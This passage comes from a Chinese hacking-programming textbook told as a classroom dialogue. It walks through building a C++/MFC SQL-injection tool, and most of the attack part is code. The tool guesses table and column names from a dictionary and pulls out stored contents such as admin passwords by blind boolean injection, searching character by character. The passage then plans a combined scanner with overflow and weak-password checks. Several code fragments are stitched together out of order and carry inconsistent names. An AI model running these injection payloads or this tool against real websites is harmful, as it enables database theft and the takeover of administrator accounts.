“判断输入的条件是否为真条件的判别方法为：存在注入点 -> 将条件构造好并判断返回的结果是否和真条件的相同 -> 相同则条件为真，否则为假。这就是我们 SQL 注入在真实战场上利用时基于的原理。实战分析一下：首先链接 `http://192.168.15.31/default.asp?id=3` 存在注入点，然后我们构造下面的 URL：`http://192.168.15.31/default.asp?id=3 and exists(select * from admin)`，如果该 URL 和原始 URL 的信息相同，那么我们就可以肯定 `exists(select * from admin)` 这条语句执行的结果为真，否则为假。我们再来细细看这条 SQL 语句：`exists(select * from admin)`。`select * from admin` 的意思就是从 admin 表中查询所有的列，因而这整个语句的意思就是判断是否从 admin 表中查询出了数据，如果有则返回真，否则返回假。没有数据的表对我们有用吗？肯定没有，所以这条语句最后形成的真正意义为：是否存在对我们有意义的表 admin，如果有则返回真，否则返回假。”老师继续分析道，“根据这些分析，现在知道如何来判断一个表是否存在了吧？还是以这个链接来说明：`http://192.168.15.31/default.asp?id=3 and exists(select * from admin)`。如果其返回的信息和原始的信息相同，那么就说明存在 admin 表，否则说明不存在 admin 表。”老师解释道。

“那就是一个表一个表地去猜测吗？这个办法太笨了吧。”小菜问道。

“办法是笨了点儿，不过偏偏这个方法就能行得通，呵呵，程序员在写程序的时候多半不会特意把表的名称设置得很复杂，一来自己不容易记住，二来也不愿意多敲几个字，方便是要付出代价的。”老师感慨道。

“当然，如果是 MSSQL 数据库，还可以通过 `sysobjects` 表将用户建立的表直接查询出来，不过鉴于此方法编程的复杂性，我们就不探讨了，大家可以回去研究一下。回到正题，我们已经把扫描字段名的方法解释清楚了，那么就进入编程阶段。”老师说道。

“这次就建立一个新工程吧，命名为 `UseInjection`，设计界面如图 3-61 所示。”

“首先我们在属性里把‘扫描表名’、‘扫描字段’和‘扫描内容’三个按钮的 `disable` 字段变成 `TRUE`，让它们在最开始的时候变成不可点击的。‘扫描表名’按钮只有在检测注入点成功后才能使用，为了实现这个功能，可以先在 `CUserInjection` 类里面添加一个成员变量 `m_bInjectionUrl`，初始状态为 `FALSE`，同时为了表示扫描到的注入点的类型，我们再添加一个成员变量 `m_dwInjectionType`，0 代表数字型，1 代表字符型，2 代表搜索型。添加成员变量的方法如下：切换到‘类管理视图’，右键点击 `CUserInjectionDlg` -> 添加 -> 添加变量，如图 3-62。在弹出的‘添加成员变量向导’对话框中填入变量类型和变量名后点击‘完成’按钮就可以添加一个成员变量了。”

“注入点的检测方法以及代码实现在前面就已经讲述过了，这里就结合本程序来复习一下，有谁愿意来为大家分析一下流程？”

“我来试试。”小菜 B 自信地站了起来。

“首先消息响应函数创建检测注入点的子线程后马上结束，而检测注入点的子线程流程是：获取正常的 URL 的内容，首先根据经典的‘1=1、1=2’判别是否为数字型的注入点，如果不是，再调用字符型注入点检测方法来检测，最后调用搜索型注入点检测方法进行检测。”小菜 B 继续说道，“流程就是这样，至于编码，可以将前面的检测方法的代码拷贝过来，不过需要注意的是为了使‘扫描表名’按钮重新激活，使用了这样的语句 `GetDlgItem(IDC_SCAN_TABLE)->EnableWindow(TRUE);`。这里使用了 `CWnd::EnableWindow` 和 `CWnd::GetDlgItem` 函数。”

```cpp
EnableWindow 的原型为：BOOL EnableWindow(BOOL bEnable = TRUE);

参数：
- 当 bEnable 为 TRUE，窗口被激活；否则被变成不可用。

CWnd::GetDlgItem 的原型为：CWnd* GetDlgItem(int nID) const;

参数：
- nID 为控件 ID 号，如 IDC_SCAN_TABLE。返回对应的控件指针对象。
```

“当扫描到有注入点后，‘扫描表名’按钮激活，此时就可以进行表名的扫描了，而为了防止界面僵死，‘扫描表名’的消息响应函数开启扫描表名线程 `ScanTableThread` 后就直接返回。下面来讨论一下肩负起扫描任务的线程 `ScanTableThread` 的实现。到了它的流程了：获得正常的网页内容、状态 -> 读取字典 -> 遍历字典 -> 根据不同的注入类型构造不同的检测 URL -> 获取构造的 URL 的内容、状态 -> 和正常 URL 的返回信息进行比较。”

“获取 URL 的内容前面已经有线程的代码了，`GetHttpFile` 函数就是实现这个功能的。”小菜们等老师说完流程就开始了分析。

“字典就更简单了，我们在前面弱口令扫描的时候可用了多次哦，看来程序写得多就是好啊，到处都可以直接 copy。”小菜们感叹道。

“至于构造不同的检测 URL，需要根据不同的注入点类型来进行构造，我们可以这样实现。”老师将各个类型的注入 URL 构造写了出来。

```cpp
if (pDlg->m_dwInjectionType == 0)
{
    // 数字型
    strTmpUrl.Format("%s and exists(select * from %s)",
        strScanUrl, Dic.szTableName);
}
else if (pDlg->m_dwInjectionType == 1)
{
    // 字符型
    strTmpUrl.Format("%s' and exists(select * from %s) and '1'='1",
        strScanUrl, Dic.szTableName);
}
else if (pDlg->m_dwInjectionType == 2)
{
    // 搜索型
    strTmpUrl.Format("%s%s' and exists(select * from %s) and '%s'='",
        strScanUrl, "%25", Dic.szTableName, "%25");
}
```

“最后就剩下了比较部分，只要比较和原始信息的状态以及返回数据包的大小就可以判断了。关键问题解决，最后就剩下编码了，轻松搞定哦。”

```cpp
DWORD WINAPI ScanTableThread(LPVOID lpParam)
{
    CUseInjectionDlg* pDlg = (CUseInjectionDlg*)lpParam;
    CString strServerName;
    CString strObject;
    INTERNET_PORT nPort;
    DWORD dwServiceType;
    CString strScanUrl(pDlg->m_strUrl);

    if (!AfxParseURL(strScanUrl, dwServiceType, strServerName, strObject, nPort) ||
        dwServiceType != INTERNET_SERVICE_HTTP)
    {
        pDlg->GetDlgItem(IDOK)->EnableWindow(TRUE);
        pDlg->GetDlgItem(IDC_SCAN_TABLE)->EnableWindow(TRUE);
        return 0;
    }

    DWORD dwSize = 0;
    DWORD dwStatusCode = 0;
    // 获取正常的网页包
    char* szBuf = GetHttpFile(strScanUrl, dwSize, dwStatusCode);

    // 如果不能连接，直接退出
    if (!szBuf)
    {
        pDlg->GetDlgItem(IDOK)->EnableWindow(TRUE);
        pDlg->GetDlgItem(IDC_SCAN_TABLE)->EnableWindow(TRUE);
        return 0;
    }

    FILE* pDicFile = NULL;
    TCHAR szCurPath[MAX_PATH];
    GetCurrentDirectory(MAX_PATH, szCurPath);
    CString strDicPath(szCurPath);
    strDicPath += _T("\\TableDic.dic");

    // 读取表名
    CList<NameDic, NameDic> NameDicList;
    if ((pDicFile = fopen(strDicPath, "r")) == NULL)
    {
        AfxMessageBox("没有找到字典文件");
        pDlg->GetDlgItem(IDOK)->EnableWindow(TRUE);
        pDlg->GetDlgItem(IDC_SCAN_TABLE)->EnableWindow(TRUE);
        return 0;
    }

    CreateDicList(NameDicList, pDicFile);
    fclose(pDicFile);

    POSITION pos = NameDicList.GetHeadPosition();
    for (int i = 0; i < NameDicList.GetCount(); i++)
    {
        NameDic Dic = NameDicList.GetNext(pos);
        CString strTmpUrl;
        DWORD dwSize1 = 0;
        DWORD dwStatusCode1 = 0;

        if (pDlg->m_dwInjectionType == 0)
        {
            // 数字型
            strTmpUrl.Format("%s and exists(select * from %s)",
                strScanUrl, Dic.szTableName);
        }
        else if (pDlg->m_dwInjectionType == 1)
        {
            // 字符型
            strTmpUrl.Format("%s' and exists(select * from %s)",
                strScanUrl, Dic.szTableName);
        }
        else if (pDlg->m_dwInjectionType == 2)
        {
            // 搜索型
            strTmpUrl.Format("%s%s' and exists(select * from %s) and '%s'='",
                strScanUrl, "%25", Dic.szTableName, "%25");
        }
        else
        {
            break;
        }
    }
}
```

#### 三、字段名扫描

```cpp
char *szBuf = GetHttpFile(strTmpUrl, dwSize_1, dwStatusCode_1);
if (dwSize == dwSize_1 && dwStatusCode == dwStatusCode_1)
{
    // 找到了
    pDlg->m_TableList.InsertItem(0, Dic.szTableName);
}

if (szBuf)
{
    delete []szBuf;
}

pDlg->GetDlgItem(IDOK)->EnableWindow(TRUE);
pDlg->GetDlgItem(IDC_SCANTABLE)->EnableWindow(TRUE);
return 0;
```


“编码结束，赶紧测试一下我们的程序吧。注意必须有一个表名字典文件‘TableDic.dic’，执行程序，然后对 http://192.168.15.31/default.asp?id=3 进行‘检测注入点’，成功找到注入点后，就可以扫描表名了，我们来看看结果，如图 3-63。”

“乌拉~~，成功找到两个表名。”小菜们终于看到注入点利用的结果了。

“表名猜解了出来，我们一鼓作气把字段名的猜解也解决了。”

“字段名的扫描原理和猜测表名一样，关键就是看如何构造 SQL 语句了，表名猜测中我们使用了这个语句 exists(select * from 表名)，‘*’的意思就是查询表名中所有字段，如果我们查询一个字段，就可以这样 exists(select 字段名 from 表名)，前面表名已经猜测出来了，因此可以将表名固定，不断地变化‘字段名’就可以对字段名进行猜测了。”老师开篇就道出了字段名扫描的方法。

“相对于表名的扫描，字段名的扫描的变化就只有构造检测的 URL，因此在字段名的扫描线程中将 URL 构造代码改变如下。”

```cpp
if (pDlg->m_dwInjectionType == 0)
{
    // 数字型
    strTmpUrl.Format("%s and exists(select %s from %s)",
        strScanUrl, Dic.szColName, strTableName);
}
else if (pDlg->m_dwInjectionType == 1)
{
    // 字符型
    strTmpUrl.Format("%s' and exists(select %s from %s) and '1'='1",
        strScanUrl, Dic.szColName, strTableName);
}
else if (pDlg->m_dwInjectionType == 2)
{
    // 搜索型
    strTmpUrl.Format("%s%s' and exists(select %s from %s) and '%s'='",
        strScanUrl, "%25", Dic.szColName, strTableName, "%25");
}
```

“strTableName”就是用户选择的表名。”老师解释道。

“那我们怎么得到用户选择的表名呢？”

“CListCtrl 类确实没有提供比如 GetCurSel 之类的函数来获得当前的焦点，不过我们可以变相地用 GetNextItem 来实现该功能，因此获取选择的表名代码如下。”

```cpp
int item = pDlg->m_TableList.GetNextItem(-1, LVNI_ALL | LVNI_SELECTED);
CString strTableName = pDlg->m_TableList.GetItemText(item, 0);
```

“快给我们演示一下效果吧！”小菜们急于看到扫描字段名的结果。

“不要急哦，我们还有最后一个重要的东西没有做，我们的‘扫描字段’还是灰色的呢？”

“哦，对哦，差点忘记。”

“那什么时候把它激活呢？”老师问道。

“当点击表名列表控件里面的表名时候，不过我们怎么能得到鼠标点击了列表控件的这个动作呢？”小菜们问道，“如果像按钮一样能添加一个消息响应函数就好了。”

“确实可以添加哦。”老师说道，“切换到‘资源视图’，然后点击我们的表名列表控件，再切换到‘属性’视图，看到闪电的图标了吗？鼠标放在闪电上会出现‘控件事件’的字样哦，点击闪电我们就可以看到该列表控件可以响应的消息了，如图 3-64。”

“这就是列表控件能够响应的事件吗？好多啊，怎么能够分得清楚是什么事件啊？”小菜们有点不知所措。

“这些事件的名称命名都是有一定规律的哦，比如 NM_RCLICK 就是 NM_Right_Mouse_Click 的缩写哦，也就是单击了鼠标右键的消息，而 NM_CLICK 就是单击了鼠标左键的消息，不仅如此，我们在点击每一个事件的时候，在‘属性’视图下面就会出现该事件含义的中文提示哦。”老师讲解道。

“好了，我们就来为列表控件添加一个消息响应，那我们需要什么事件呢？”老师问道。

“鼠标单击的事件吧，NM_CLICK。”小菜们回答道。

“我们来看看它的描述，‘指示用户已在控件内单击了鼠标左键’，看来不是很符合我们的要求哦，我们要求是其中一个表名被选中，然后激活‘扫描字段’，好吧，我来介绍一个事件，LVN_ITEMCHANGED，其描述为‘指示视图包含的某项已更改’，当选中的项被更改的时候就会触发该事件。”老师说道。

“添加该事件消息后，VC 就为我们添加了 OnLvnItemchangedListTable 函数，只要在函数里面将‘扫描字段’通过 EnableWindow 函数激活就可以了。程序搞定，我们来看执行的效果吧，还是扫描 http://192.168.15.31/default.asp?id=1，然后检测注入点，检测出来 admin 和 news 表，选中 admin 表后再点击‘扫描字段’进行字段名扫描，如图 3-65，达到了预期的效果，扫描出三个字段了。”


#### 四、内容扫描

“表名和字段名都扫描出来之后，我们下一步的工作是什么？”

“当然是扫描管理员的密码哦，老师快讲怎么扫描字段的内容吧，我们都等不及了。”小菜们都挽起袖子了。

“好的，现在我们正式进入利用 SQL 注入点的高级阶段，‘找出字段的内容’，说不定里面就有管理员的密码哦。”

“密码还是利用字典来爆破吗？”小菜 C 问道。

“当然不是，因为 ACCESS 和 MSSQL 都为我们留下了一些比较好玩的函数，利用它们我们可以构造很多精妙的 SQL 语句哦。为了讲解方便，我们这里只讲述如何扫描 ACCESS 的字段内容，下次大家可以自己把 MSSQL 的内容扫描加上哦。如何扫描内容呢？我们可以将步骤分为三步：

- 第一步就是判断内容记录的条数；
- 第二步是判断单个内容记录的长度；
- 第三步是获取记录的每一个 ascii 码，最后形成完整的内容。

首先看看如何判断记录的条数，来看下面这条语句：**(select Count(1) from admin) = 3**。这条语句的含义就是判断 admin 表中的内容记录的条数是否等于 3。”老师说道。

“哦，那我们一个个测试就可以最终找出记录的条数。”小菜们说道。

“如果一个个地验证太没有效率了，我们来把上面的 SQL 语句变形一下，**(select Count(1) from admin) between 0 and 100**，这样只要记录条数在 0 到 100 的话该语句执行都为真，如果为真，那么我们可以将 100 变为 50，这样来折半进行查找，提高效率，下面就是折半查找的代码。”

```cpp
int nFirst = 0;
int nLast = 32;
while (TRUE)
{
    // 构造查询的 SQL 语句
    strSql.Format("select Count(1) from %s between %d and %d", strTableName, nFirst, nLast);

    // 根据 SQL 语句和注入点的类型以及原始 URL，得到最后的检测 URL
    strLastUrl = GetSqlInjectionUrl(iDgType, m_dwInjectionType, strScanUrl, strSql);

    // 得到网页内容
    szBuf_1 = GetHttpFile(strLastUrl, dwSize_1, dwStatusCode_1);

    // 判断该 SQL 语句是否为真
    if (IfSqlTrue(szBuf, dwSize, dwStatusCode, szBuf_1, dwSize_1, dwStatusCode_1))
```

```cpp
// 如果 SQL 语句为假，那么增大范围
if (iLast == 32)
{
    // 不要再猜测了，大于 32 条记录
    if (szBuf_t)
    {
        delete [] szBuf_t;
        szBuf_t = NULL;
        RecodeCnt = 32;
    }
    break;
}

int iTmp = iLast;
iLast = iLast + iLast - iFirst;
iFirst = iTmp;
iLast = ((iLast + iFirst) / 2) + ((iLast + iFirst) % 2);

else
{
    // 如果 SQL 为真，并且差值为 1，那么就表示找到了记录条数
    if ((iLast - iFirst) == 1)
    {
        // iLast 就是值
        RecodeCnt = iLast;
        if (szBuf_t)
        {
            delete [] szBuf_t;
            szBuf_t = NULL;
        }
        break;
    }
    iLast = ((iLast + iFirst) / 2) + ((iLast + iFirst) % 2);
}

if (szBuf_t)
{
    delete [] szBuf_t;
    szBuf_t = NULL;
}
```

“其次是如何判断单条记录的长度，看看下面这条语句：**(select top 1 len(password) from admin) between 0 and 64**，len 函数的意思是计算查询到的 password 记录内容的长度，而 top 1 表示只查询一条记录，因此这条语句合起来的意思就是判断 admin 表中的第一个 password 记录的长度是否在 0 和 64 之间，因此如果我们要查询 password 的第一条记录的长度就可以通过这条语句来实现。”

“那如果我们要查询第二条记录呢？AD 注入工具可以查询多条内容记录啊，这个是怎么实现的呢？”小菜们问道。

“只要我们 SQL 语句写得好，没有什么事情办不到，来看看前辈们总结的下面这条语句：**(select top 1 len(password) from (Select Top 2 password from admin order by password) T Order by password desc) between 0 and 32**。这条语句就是查询第二条记录的长度哦。”老师说道。

“为什么呢？看不懂这条语句。”小菜们一脸茫然。

“我们来分解一下，**Select Top 2 password from admin order by password** 这条语句是什么意思？”老师问道。

“按照 password 正向排序从 admin 表中查询 password 的两条记录。”小菜们对照前面提到的 SQL 语句分析后得出了结论。

“那我们把这条语句查询的结果看成一个集合，用‘A’来表示，带入到上面的语句中，就成了这样：**select top 1 len(password) from 【A】 T Order by password desc**。而这条语句可以这样理解，按照 password 逆向排序在‘A’中查询一条 password 长度的记录，想想，集合 A 的查询方式是正向，而这里使用的是逆向，岂不是把集合 A 中的最后一条记录查询了出来吗？对这里而言就是将第二条记录查询了出来。”

“原来是这样啊，那我们依次改变集合 A 中的查询个数，那岂不是可以把所有的记录的长度都查询出来。”小菜们恍然大悟。

“现在我们查询记录长度的 SQL 语句也出来了，就剩下最后的折半查找了哦，折半查找的方法可以参考前面查询记录条数的方法。”

```cpp
for (int i = 1; i <= iRecodeCnt; i++)
{
    iFirst = 0;
    iLast = 32;

    // 首先判断是否存在记录
    strSql.Format("(select top 1 len(%s) from (Select Top %d %s from %s order by %s) T Order by %s desc) between 0 and 1000000",
        strColName, i, strColName, strTableName, strColName, strColName);
    strLastUrl = GetSqlInjectionUrl(pDlg->m_dwInjectionType, strScanUrl, strSql);
    szBuf_1 = GetHttpFile(strLastUrl, dwSize_1, dwStatusCode_1);
    if (!IsSqlTrue(szBuf, dwSize, dwStatusCode, szBuf_1, dwSize_1, dwStatusCode_1))
    {
        if (szBuf_1)
        {
            delete []szBuf_1;
        }
        continue;
    }

    // 判断记录长度
    while (TRUE)
    {
        strSql.Format("(select top 1 len(%s) from (Select Top %d %s from %s order by %s) T Order by %s desc) between %d and %d",
            strColName, i, strColName, strTableName, strColName, strColName, iFirst, iLast);
        strLastUrl = GetSqlInjectionUrl(pDlg->m_dwInjectionType, strScanUrl, strSql);
        szBuf_1 = GetHttpFile(strLastUrl, dwSize_1, dwStatusCode_1);
        if (!IsSqlTrue(szBuf, dwSize, dwStatusCode, szBuf_1, dwSize_1, dwStatusCode_1))
        {
            if (iLast == 32)
            {
                // 不要再猜测了，长度大于 32
                if (szBuf_1)
                {
                    delete []szBuf_1;
                    szBuf_1 = NULL;
                    iRecodeLen = 32;
                }
                break;
            }
            int iTmp = iLast;
            iLast = iLast + iLast - iFirst;
            iFirst = iTmp;
            iLast = (iLast + iFirst) / 2 + ((iLast + iFirst) % 2);
        }
        else
        {
            if (iLast - iFirst == 1)
            {
                // iLast 就是值
                iRecodeLen = iLast;
                if (szBuf_1)
                {
                    delete []szBuf_1;
                    szBuf_1 = NULL;
                }
                break;
            }
            iLast = (iLast + iFirst) / 2 + ((iLast + iFirst) % 2);
        }
        if (szBuf_1)
        {
            delete []szBuf_1;
            szBuf_1 = NULL;
        }
    }

    strTmp.Format("记录长度为：%d", iRecodeLen);
    pDlg->m_ContentList.InsertItem(0, strTmp);
}
```

“现在我们来完成第三步的步骤，也是真正有价值的一步，查找真正的内容。”老师说道。

“看看这条 SQL 语句：`(select top 1 asc(mid(cstr(字段名),1,1)) from 表名) between 32 and 64`。来解释一下这条语句，首先使用 `mid` 函数取出记录的第一个位置的 1 个字符，然后调用 `asc` 来将字符转化为 ascii 码，最后查看其 ascii 码值是否在 32 到 64 之间，如果在之间，我们就再折半判断是否在 32 到 48 之间，如果这次不是，那就判断是否在 49 和 63 之间；如果要查询第 2 个字符的 ascii 码，那么将 SQL 语句变为 `(select top 1 asc(mid(cstr(字段名),2,1)) from 表名) between 32 and 64` 这样就可以了。通过折半查找法以及 mid”## 第三章 端口与漏洞扫描编程

函数的帮忙，就可以将第一条记录的内容的 ASCII 码查询出来了哦，那么如何查找第二条记录的数据呢？大家来构造一下这个 SQL 语句。”老师问道。

“我们同样可以构造一个集合，然后通过正向排序和逆向排序把第二个记录查询出来。”小菜们找到了该方法的通用行为，“集合应该和上面查询长度的集合构造一样：`Select Top 2 password from admin order by password`。然后加上查找 ASCII 码的 SQL 语句，合起来就可以写成这样：`(select top 1 asc(mid(cstr(password),1,1)) from (Select Top 2 password from admin order by password) T order by password desc) between 32 and 64`。”

“非常不错，就是这样构造 SQL 语句的，通过折半查找就可以得到密码了哦，最后我们以伪代码的方式来总结一下内容扫描的步骤。”

```cpp
获取记录的条数 iRecodeCnt
for(iRecodeCnt) // 扫描所有的记录
{
    获取单个记录的长度 iRecordLen
    for (iRecordLen) // 扫描所有的字符
    {
        // 获取字符
    }
}
```

“进行扫描的代码如下。”

```cpp
DWORD WINAPI ScanContentThread(LPVOID lpParam)
{
    CUseInjectionDlg * pDlg = (CUseInjectionDlg *)lpParam;
    // 获得选中的表名
    int item = pDlg->m_TableList.GetNextItem(-1, LVNI_ALL|LVNI_SELECTED);
    CString strTableName = pDlg->m_TableList.GetItemText(item,0);
    if (strTableName.IsEmpty())
    {
        return 0;
    }
    // 获得选中的字段名
    item = pDlg->m_ColList.GetNextItem(-1, LVNI_ALL|LVNI_SELECTED);
    CString strColName = pDlg->m_ColList.GetItemText(item,0);
    if (strColName.IsEmpty())
    {
        return 0;
    }
    CString strServerName;
    CString strObject;
    INTERNET_PORT nPort;
    DWORD dwServiceType;
    CString strScanUrl(pDlg->m_strUrl);
    if (!AfxParseURL(strScanUrl, dwServiceType, strServerName, strObject, nPort) ||
        dwServiceType != INTERNET_SERVICE_HTTP)
    {
        pDlg->GetDlgItem(IDOK)->EnableWindow(TRUE);
        pDlg->GetDlgItem(IDC_SCAN_TABLE)->EnableWindow(TRUE);
        return 0;
    }
    DWORD dwSize = 0;
    DWORD dwStatusCode = 0;
    // 获取正常的网页内容
    char *szBuf = GetHttpFile(strScanUrl, dwSize, dwStatusCode);
    // 如果不能连接，直接退出
    if (!szBuf || dwStatusCode == 0)
    {
        pDlg->GetDlgItem(IDOK)->EnableWindow(TRUE);
        pDlg->GetDlgItem(IDC_SCAN_TABLE)->EnableWindow(TRUE);
        return 0;
    }
    // 构造的 SQL 语句
    CString strSql;
    // 最后形成的 URL
    CString strLastUrl;
    // 获得的内容大小
    DWORD dwSize_1 = 0;
    // 获得的状态码
    DWORD dwStatusCode_1 = 0;
    // 获取网页的非标准码
    char *szBuf_1 = NULL;
    // 记录条数
    int iRecodeCnt = 0;
    // 记录长度
    int iRecodeLen = 0;
    // URL 长度
    int iFirst = 0;
    int iLast = 32;

    // 先判断是否存在记录
    strSql.Format("select Count(1) from %s between 0 and 1000000", strTableName);
    strLastUrl = GetSqlInjectionUrl(pDlg->m_dwInjectionType, strScanUrl, strSql);
    szBuf_1 = GetHttpFile(strLastUrl, dwSize_1, dwStatusCode_1);
    if (IsSqlTrue(szBuf, dwSize, dwStatusCode, szBuf_1, dwSize_1, dwStatusCode_1))
    {
        // 存在记录
        if (szBuf_1)
        {
            delete []szBuf_1;
        }
    }
    else
    {
        if (szBuf_1)
        {
            delete []szBuf_1;
        }
        pDlg->m_ContentList.InsertItem(0, "没有找到记录条数");
        return 0;
    }

    // 判断记录条数
    while (TRUE)
    {
        strSql.Format("select Count(1) from %s between %d and %d", strTableName, iFirst, iLast);
        strLastUrl = GetSqlInjectionUrl(pDlg->m_dwInjectionType, strScanUrl, strSql);
        szBuf_1 = GetHttpFile(strLastUrl, dwSize_1, dwStatusCode_1);
        if (IsSqlTrue(szBuf, dwSize, dwStatusCode, szBuf_1, dwSize_1, dwStatusCode_1))
        {
            if (iLast == 32)
            {
                // 不要再测试了，大于 32 条记录
                if (szBuf_1)
                {
                    delete []szBuf_1;
                    szBuf_1 = NULL;
                }
                iRecodeCnt = 32;
                break;
            }
            int iTmp = iLast;
            iLast = iLast + iLast - iFirst;
            iFirst = iTmp;
            iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
        }
        else
        {
            if (iLast - iFirst == 0)
            {
                // iLast 就是值
                iRecodeCnt = iLast;
                if (szBuf_1)
                {
                    delete []szBuf_1;
                    szBuf_1 = NULL;
                }
                break;
            }
            iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
        }

        if (szBuf_1)
        {
            delete []szBuf_1;
            szBuf_1 = NULL;
        }
    }

    CString strTmp;

    strTmp.Format("记录条数为：%d", iRecodeCnt);
    pDlg->m_ContentList.InsertItem(0, strTmp);
    // 判断记录长度
    for (int i=1; i<=iRecodeCnt; i++)
    {
        iFirst = 0;
        iLast = 32;
        // 首先判断是否存在记录
        strSql.Format("(select top 1 len(%s) from (Select Top %d %s from %s order by %s) T Order by %s desc) between 0 and 10000", strColName, i, strColName, strTableName, strColName, strColName);
        strLastUrl = GetSqlInjectionUrl(pDlg->m_dwInjectionType, strScanUrl, strSql);
        szBuf_1 = GetHttpFile(strLastUrl, dwSize_1, dwStatusCode_1);
        if (!IsSqlTrue(szBuf, dwSize, dwStatusCode, szBuf_1, dwSize_1, dwStatusCode_1))
        {
            if (szBuf_1)
            {
                delete []szBuf_1;
            }
            continue;
        }

        // 判断记录长度
        while (TRUE)
        {
            strSql.Format("(select top 1 len(%s) from (Select Top %d %s from %s order by %s) T Order by %s desc) between %d and %d", strColName, i, strColName, strTableName, strColName, strColName, iFirst, iLast);
            strLastUrl = GetSqlInjectionUrl(pDlg->m_dwInjectionType, strScanUrl, strSql);
            szBuf_1 = GetHttpFile(strLastUrl, dwSize_1, dwStatusCode_1);
            if (!IsSqlTrue(szBuf, dwSize, dwStatusCode, szBuf_1, dwSize_1, dwStatusCode_1))
            {
                if (iLast == 32)
                {
                    // 不要再猜测了，长度大于 32
                    if (szBuf_1)
                    {
                        delete []szBuf_1;
                        szBuf_1 = NULL;
                        iRecodeLen = 32;
                    }
                    break;
                }
                int iTmp = iLast;
                iLast = iLast + iLast - iFirst;
                iFirst = iTmp;
                iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
            }
            else
            {
                if (iLast - iFirst == 1)
                {
                    // iLast 就是值
                    iRecodeLen = iLast;
                    if (szBuf_1)
                    {
                        delete []szBuf_1;
                        szBuf_1 = NULL;
                    }
                    break;
                }
                iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
            }
            if (szBuf_1)
            {
                delete []szBuf_1;
                szBuf_1 = NULL;
            }
        }

        strTmp.Format("记录长度为：%d", iRecodeLen);
        pDlg->m_ContentList.InsertItem(0, strTmp);
        char *szContent = new char[iRecodeLen+1];
        ZeroMemory(szContent, iRecodeLen+1);
        // 检测内容
        for (int k=1; k<=iRecodeLen; k++)
        {
            iFirst = 30;
            iLast = 127;

            while (TRUE)
            {
                strSql.Format("(select top 1 ascii(mid(%s,%d,1)) from (Select Top %d %s from %s order by %s) T Order by %s desc) between %d and %d", strColName, k, i, strColName, strTableName, strColName, strColName, iFirst, iLast);
                strLastUrl = GetSqlInjectionUrl(pDlg->m_dwInjectionType, strScanUrl, strSql);

                szBuf_1 = GetHttpFile(strLastUrl, dwSize_1, dwStatusCode_1);
                if (!IsSqlTrue(szBuf, dwSize, dwStatusCode, szBuf_1, dwSize_1, dwStatusCode_1))
                {
                    if (iLast == 127)
                    {
                        // 主要用来判断长度大于 127
                        if (szBuf_1)
                        {
                            delete []szBuf_1;
                            szBuf_1 = NULL;
                        }
                        szContent[k-1] = 127;
                        break;
                    }

                    int iTmp = iLast;
                    iLast = iLast + iLast - iFirst;
                    iFirst = iTmp;
                    iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
                }
                else
                {
                    if (iLast - iFirst == 1)
                    {
                        // iLast 就是值
                        szContent[k-1] = (char)iLast;
                        if (szBuf_1)
                        {
                            delete []szBuf_1;
                            szBuf_1 = NULL;
                        }
                        break;
                    }

                    iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
                }

                if (szBuf_1)
                {
                    delete []szBuf_1;
                    szBuf_1 = NULL;
                }
            }
        }

        strTmp.Format("%s = %s", strColName, szContent);
        pDlg->m_ContentList.InsertItem(0, strTmp);
        delete []szContent;
    }

    pDlg->GetDlgItem(IDOK)->EnableWindow(TRUE);
    pDlg->GetDlgItem(IDC_SCAN_TABLE)->EnableWindow(TRUE);
    return 0;
}
```


图 3-66

“还是来测试一下我们打造好的 SQL 注入工具的威力吧，如图 3-66！”

## 3.3 综合扫描工具的编写

“前面已经将端口扫描以及漏洞扫描的方法介绍给大家了，这节课我们就要把前面讲过的所有扫描程序汇聚到一起，组合成一个综合的扫描工具。到这一步，技术都没什么了，主要是给大家讲讲如何开始搭建一个比较大的程序的框架：从需求分析到界面设计，再到概要设计，最后进行详细设计和最后的编码，首先我们来看需求分析。”

### 3.3.1 需求分析

“在设计一个软件的时候，首先应该明确的就是我们的需求是什么、需要什么样的功能，只有需求明确了，我们才能进行界面设计以及后续的设计、编码，那么我们这个扫描程序需要的功能有哪些呢？”老师

# 第三章 端口与漏洞扫描编程

问道。

“端口扫描、漏洞扫描。”小菜们回答道。

“我们可以将程序分为这两个大的模块。再详细一点，端口扫描需要 TCP Connect 扫描、TCP SYN 扫描，而 TCP Connect 扫描还可以先使用 ICMP 和 SYN 进行存活性检测，而漏洞扫描需要对溢出漏洞、弱口令扫描以及 SQL 注入点扫描。详细归纳一下这些功能。”

- 1. ICMP 主机存活性检测
- 2. TCP SYN 主机存活性检测
- 3. TCP Connect 端口扫描
- 4. TCP SYN 端口扫描
- 5. Serv-U 溢出漏洞扫描
- 6. IIS 的 Printer 和 idq 溢出漏洞扫描
- 7. PNP 溢出漏洞扫描
- 8. MSSQL 溢出漏洞扫描
- 9. FTP 弱口令扫描
- 10. MySQL 弱口令扫描
- 11. MSSQL 弱口令扫描
- 12. SQL 注入点扫描

“看来我们需要实现的功能还是比较多的哦。”

### 3.3.2 界面设计

“首先我们还是建立一个基于 MFC 对话框的工程，命名为‘WwScan’，然后进行网络初始化，还记得需要做什么其它的工作吗？”

“在 stdafx.h 中添加头文件以及将‘ws2_32.lib’链接到工程，并在 InitInstance 函数中调用 WSAStartup 初始化网络。”小菜们齐声说道。

“好，现在进行界面的设计。首先需要明确需要哪些元素，通过前面的功能分析，界面的元素就应该可以明确了，大家来归纳一下。”

“IP 地址需要用 IP 控件，端口可以使用编辑框，还需要 TCP SYN 扫描或者 TCP Connect 扫描的单选框按钮，检测主机存活性的复选框按钮，可以让我们选择使用 ICMP 或者 SYN 进行主机存活性检测，还有就是使用列表控件来显示输出的结果。”大家七嘴八舌地就把端口扫描需要的界面元素讨论了出来。

“端口扫描的元素完成，那么漏洞扫描呢？”

“漏洞扫描就更简单了，全是复选框按钮，还有就是结果显示的列表控件。”

“现在比较清楚了，开个清单。”

- 1. IP 控件两个
- 2. 编辑框两个，存放端口
- 3. 单选框两个，用以选择 TCP SYN 扫描或者 TCP Connect 扫描
- 4. 复选框两个，用于选择使用 ICMP 或者 SYN 进行主机存活性检测
- 5. 结果显示的列表控件或者树型控件
- 6. 复选框 7 个，用于选择扫描哪些漏洞

“哇，还真多，不知道要用多大的对话框才能装得下呢？”小菜们感觉到空间不够用。

